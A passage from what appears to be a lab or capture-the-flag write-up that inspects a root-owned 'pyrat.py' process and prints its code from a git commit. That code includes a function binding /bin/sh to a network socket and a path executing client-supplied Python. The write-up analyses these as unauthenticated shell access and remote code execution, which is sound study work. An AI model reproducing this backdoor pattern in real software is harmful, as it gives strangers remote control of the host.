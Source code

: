 ## Analyzing Running Processes
Checking active processes:
```terminal
ps aux | grep -i rat
```
Revealed:
```terminal
root          11  0.0  0.0      0     0 ?        S    12:55   0:00 [migration/0]
root         591  0.0  0.0   2608   596 ?        Ss   12:56   0:00 /bin/sh -c python3 /root/pyrat.py 2>/dev/null
root         592  0.0  1.4  21864 14656 ?        S    12:56   0:00 python3 /root/pyrat.py
root         639  0.0  1.2 316900 12420 ?        Sl   12:56   0:00 python3 /root/pyrat.py
www-data   13068  0.0  1.2  22248 12628 ?        S    13:04   0:00 python3 /root/pyrat.py
think      13288  0.0  0.0   6432   724 pts/1    S+   13:40   0:00 grep --color=auto -i rat
```
The `pyrat.py` script was running as **root**.

## Extracting RAT Code
Using Git logs, I retrieved the script’s older version:
```terminal
git show 0a3c36d66369fd4b07ddca72e5379461a63470bf
```
Relevant code snippet:
```python
def switch_case(client_socket, data):
+    if data == 'some_endpoint':
+        get_this_enpoint(client_socket)
+    else:
+        # Check socket is admin and downgrade if is not aprooved
+        uid = os.getuid()
+        if (uid == 0):
+            change_uid()
+
+        if data == 'shell':
+            shell(client_socket)
+        else:
+            exec_python(client_socket, data)
+
+def shell(client_socket):
+    try:
+        import pty
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e
```
Security issues:
- **Unauthenticated shell access** 
<br>The shell(client_socket) function opens an interactive /bin/sh shell and redirects input/output streams to the client socket. If a user gains access to this function, they could remotely control the system, which poses a huge risk.
- **UID downgrade without verification**
<br>In switch_case(), the UID (os.getuid()) is checked. If it equals 0 (root), the change_uid() function is called, which probably changes the user to a less privileged one. However, it's unclear whether change_uid() verifies if the user should have elevated privileges. If the function is implemented incorrectly, it could allow privilege escalation (e.g., if change_uid() malfunctions and lets the user return to root).
- **Remote execution vulnerability**
<br>exec_python(client_socket, data) suggests that data is passed to a function executing Python code. If no validation is applied there, a user could execute arbitrary code on the system."
